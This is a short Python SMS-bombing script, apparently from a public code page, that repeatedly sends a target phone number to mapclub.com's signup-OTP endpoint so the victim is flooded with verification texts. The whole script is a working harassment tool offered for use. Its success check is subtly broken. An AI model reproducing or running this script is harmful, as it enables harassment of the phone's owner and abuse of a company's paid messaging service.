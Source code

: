# Spm_smsimport json

import requests

import os

import sys

def main():

	os.system('clear')

	os.system('figlet Kriboking21')

	banner='''

	[+]AUTHOR: KRIBO KING21

	[+] FACEBOOK : BANGSAT BERKELAS

	'''

	print(banner)

	no = input(' target : ')

	jum = input('Jumlah spam : ')

	head = {

	"User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",

	"Referer": "https://www.mapclub.com/en/user/signup",

	"Host": "cmsapi.mapclub.com",

	}

	dat = {

	'phone': no

	}

	for x in range (int(jum)):

		leosureo = requests.post("https://cmsapi.mapclub.com/api/signup-otp", headers=head, json=dat)

		if 'eror' in leosureo:

			print('gagal Mengirim ' + no)

		else:

			print('succes mengirim ' + no)

main()
